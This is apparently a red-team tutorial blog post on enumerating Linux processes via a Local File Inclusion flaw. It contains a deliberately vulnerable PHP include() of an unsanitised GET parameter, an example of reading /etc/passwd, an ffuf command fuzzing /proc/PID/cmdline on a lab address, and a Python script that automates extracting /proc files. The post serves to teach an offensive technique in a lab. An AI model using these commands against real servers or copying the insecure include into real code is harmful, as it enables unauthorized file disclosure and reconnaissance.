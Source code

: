 ```yaml
---
title: Linux Process Enumeration Through LFI
author: Nobel Herrera
date: 2022-03-30 11:11:00 -0400
categories: [Linux, LFI, Enumeration, Web]
tags: [RedTeam, LFI, Web, Linux, Enumeration]
math: true
mermaid: true
image:
  path: /commons/devices-mockup.png
  width: 800
  height: 500
---
```


In this post, we’ll explore a technique to enumerate Linux processes through a web application vulnerable to LFI (Local File Inclusion).

File inclusion vulnerabilities allow attackers to read arbitrary files from local or remote systems and include the contents of the files in the web server’s response.

## A Vulnerable Web App
We'll use a simple php script to simulate our vulnerable web application. 
As shown in the following code, the `include` statement is used to copy into the `lfi.php` page, the contents of a file specified in the `lang` variable:

```php
<?php 
if(isset($_GET['lang'])){
        include($_GET['lang']);
} ?>ss
```

The following image shows a request/response to our web application, using the vulnerable parameter `lang` to read the `/etc/passwd` file: 

![pidlfi1](/docs/assets/lfipid1.png)

## The proc Filesystem
On Linux, the `/proc` directory contains one subdirectory for every process running on the system. These subdirectories are named after each process ID number (PID) that is active.

Into the PID subdirectories we’ll find several files with information related to the specific process. As an example, to get the command line arguments used to start a service, we can read the `cmdline` file. In the following image, `980` is the PID for the Apache server process: 

![pidlfi2](/docs/assets/pidlfi2.png)

A full list of these files and it's purpose can be found [here](https://www.kernel.org/doc/html/latest/filesystems/proc.html) 

## Enumerating PIDs with Ffuf
We'll create a number list and fuzz the PIDs with `ffuf`. Since all request returns a `200` status code, we'll use the `-fw 1` switch to filter responses with less than 2 words:  
```bash
for i in $(seq 1 5000); do echo $i >> pid.txt; done && \
ffuf -c -w pid.txt:FUZZ -u http://10.0.0.19/lfi.php?lang=/proc/FUZZ/cmdline -fw 1
```
![pidlfi3](/docs/assets/pidlfi3.png)

Now we can read the `cmdfile` of any of the found PIDs:

![pidlfi4](/docs/assets/pidlfi4.png){.left}

---
## Pythonizing the Process
I've created a [python script] to automate the process and write the contents of the extracted PID files into an output file: 

```python
#!/usr/bin/env python
import sys
import requests

if len(sys.argv) != 5:
    print ('[!] Missing parameter!')
    print ('[*] Syntax: pidenum.py URL max_PID_count proc_file output_file')
    print ('[*] Example: pidenum.py http://10.0.0.5/lfi.php?file= 2000 cmdline results.txt')
    sys.exit()

url = sys.argv[1]
pidtries = sys.argv[2]
procfile = sys.argv[3]
outputfilename = sys.argv[4]
resultsfile = open(outputfilename, mode = "w", encoding = "utf-8")
pid=1

try: 
    
    while pid <= int(pidtries):
        r = requests.get(url+ '/proc/' + str(pid) + '/' + procfile)      
        if len (r.text) > 1:
            resultsfile.write ('[*] PID: ' + str(pid) + '\n')
            resultsfile.write ('[*] URL: ' + r.url + '\n')
            resultsfile.write ('[*] ' + procfile + ': ' + r.text + '\n')        
        pid += 1
        
    resultsfile.close()

except KeyboardInterrupt: pass
```

<script src="https://gist.github.com/nobelh/698cf73bf805aad2c8b2f9f26d8e7fc1.js"></script>